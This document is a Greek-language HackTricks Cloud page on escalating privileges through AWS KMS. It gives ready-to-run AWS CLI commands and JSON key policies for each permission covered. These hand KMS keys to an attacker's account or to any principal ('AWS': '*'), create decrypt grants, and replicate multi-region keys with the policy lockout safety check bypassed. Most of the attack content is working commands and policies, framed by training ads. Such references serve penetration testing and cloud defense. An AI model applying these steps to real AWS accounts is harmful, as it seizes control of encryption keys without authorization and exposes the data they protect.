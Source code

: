 # AWS - KMS Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## KMS

Για περισσότερες πληροφορίες σχετικά με το KMS ελέγξτε:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### `kms:ListKeys`,`kms:PutKeyPolicy`, (`kms:ListKeyPolicies`, `kms:GetKeyPolicy`)

Με αυτές τις άδειες είναι δυνατό να **τροποποιήσετε τις άδειες πρόσβασης στο κλειδί** ώστε να μπορεί να χρησιμοποιηθεί από άλλους λογαριασμούς ή ακόμα και από οποιονδήποτε:

{% code overflow="wrap" %}
```bash
aws kms list-keys
aws kms list-key-policies --key-id <id> # Although only 1 max per key
aws kms get-key-policy --key-id <id> --policy-name <policy_name>
# AWS KMS keys can only have 1 policy, so you need to use the same name to overwrite the policy (the name is usually "default")
aws kms put-key-policy --key-id <id> --policy-name <policy_name> --policy file:///tmp/policy.json
```
{% endcode %}

policy.json:
```json
{
"Version" : "2012-10-17",
"Id" : "key-consolepolicy-3",
"Statement" : [
{
"Sid" : "Enable IAM User Permissions",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<origin_account>:root"
},
"Action" : "kms:*",
"Resource" : "*"
},
{
"Sid" : "Allow all use",
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : [ "kms:*" ],
"Resource" : "*"
}
]
}
```
### `kms:CreateGrant`

Επιτρέπει σε έναν κύριο να χρησιμοποιήσει ένα KMS κλειδί:
```bash
aws kms create-grant \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
--grantee-principal arn:aws:iam::123456789012:user/exampleUser \
--operations Decrypt
```
{% hint style="warning" %}
Μια παραχώρηση μπορεί να επιτρέπει μόνο ορισμένους τύπους λειτουργιών: [https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations](https://docs.aws.amazon.com/kms/latest/developerguide/grants.html#terms-grant-operations)
{% endhint %}

{% hint style="warning" %}
Σημειώστε ότι μπορεί να χρειαστούν μερικά λεπτά για να **επιτραπεί στον χρήστη να χρησιμοποιήσει το κλειδί μετά την δημιουργία της παραχώρησης**. Μόλις περάσει αυτός ο χρόνος, ο κύριος μπορεί να χρησιμοποιήσει το κλειδί KMS χωρίς να χρειάζεται να καθορίσει οτιδήποτε.\
Ωστόσο, αν χρειάζεται να χρησιμοποιηθεί η παραχώρηση αμέσως [χρησιμοποιήστε ένα token παραχώρησης](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token) (ελέγξτε τον παρακάτω κώδικα).\
Για [**περισσότερες πληροφορίες διαβάστε αυτό**](https://docs.aws.amazon.com/kms/latest/developerguide/grant-manage.html#using-grant-token).
{% endhint %}
```bash
# Use the grant token in a request
aws kms generate-data-key \
--key-id 1234abcd-12ab-34cd-56ef-1234567890ab \
–-key-spec AES_256 \
--grant-tokens $token
```
Σημειώστε ότι είναι δυνατόν να καταχωρήσετε τις παραχωρήσεις κλειδιών με:
```bash
aws kms list-grants --key-id <value>
```
### `kms:CreateKey`, `kms:ReplicateKey`

Με αυτές τις άδειες είναι δυνατή η αναπαραγωγή ενός KMS κλειδιού που είναι ενεργοποιημένο για πολλαπλές περιοχές σε μια διαφορετική περιοχή με διαφορετική πολιτική.

Έτσι, ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό για να αποκτήσει privesc την πρόσβασή του στο κλειδί και να το χρησιμοποιήσει. 

{% code overflow="wrap" %}
```bash
aws kms replicate-key --key-id mrk-c10357313a644d69b4b28b88523ef20c --replica-region eu-west-3 --bypass-policy-lockout-safety-check --policy file:///tmp/policy.yml

{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% endcode %}

### `kms:Decrypt`

Αυτή η άδεια επιτρέπει τη χρήση ενός κλειδιού για την αποκρυπτογράφηση κάποιων πληροφοριών.\
Για περισσότερες πληροφορίες, ελέγξτε:

{% content-ref url="../aws-post-exploitation/aws-kms-post-exploitation.md" %}
[aws-kms-post-exploitation.md](../aws-post-exploitation/aws-kms-post-exploitation.md)
{% endcontent-ref %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
